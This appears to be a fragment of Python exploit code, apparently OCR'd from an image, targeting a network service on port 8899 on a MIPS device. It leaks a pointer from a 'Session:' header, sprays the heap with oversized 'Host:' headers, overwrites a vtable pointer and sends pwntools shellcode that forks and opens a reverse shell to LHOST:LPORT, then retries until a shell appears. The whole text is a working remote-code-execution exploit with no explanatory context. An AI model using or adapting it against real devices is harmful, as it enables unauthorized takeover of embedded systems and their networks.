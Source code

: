 ```python
chyrtsp_this = int(data.split(b'Session: ')[1][:8], 16)
reqbuf = chyrtsp_this + 0x7c

print(f'vtable: {reqbuf:#010x}')

pl = p32(reqbuf + 0x100) * (0x100 // 4)
#pl = p32(0x00625030) * (0x100 // 4)        # run_reboot + ...
#pl += b'\xff\xff\x00\x10\x00\x00\x00\x00'  # .L1: beq $0, $0, .L1
#pl += b'\x0c\x94\x18\x08\x00\x00\x00\x00'   # j 0x00625030
pl += asm(
    shellcraft.fork() +
    """
    bgtz $v0, infloop_st
    """ +
    shellcraft.connect(LHOST, LPORT) +
    shellcraft.dupsh() +
    """
    infloop_st:
        addiu $sp, -0x8
        li $t8, 3600
        sw $t8, 0($sp)
        sw $t8, 4($sp)
    infloop:
    """ +
    shellcraft.nanosleep("$sp", 0) +
    """
        beq $0, $0, infloop
        nop
    """
)

assert all(c not in p32(reqbuf)[:3] for c in b':\0')
s.sendall(pl)
time.sleep(1)

SPRAY, TGT = 0x8, 0x4

print('spray!')
ss = []
for i in range(SPRAY):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((IP, 8899))
    ss.append(sock)

for i in range(SPRAY):
    ss[i].sendall(b"Host: " + b"TEST"*(0x100 // 0x4) + b":12345\r\n")

time.sleep(1)

print('overwrite!')
pl2 = b"Host: " + b"A"*0x100 + b"CTLN" + b"CKSZ" + b"VTL1" + p32(reqbuf)[:3] + b":12345\r\n"
ss[TGT].sendall(pl2)

time.sleep(1)

print(f'trigger @ {TGT}!')
for i in range(SPRAY):
    ss[i].sendall(b"a")

for retry_idx in list(range(TGT + 1, SPRAY)) + list(range(0, TGT)):
    input("if you didn't get shell, press enter to try more! > ")
    print(f"trying with index {retry_idx}...")
    ss[retry_idx].sendall(pl2)
```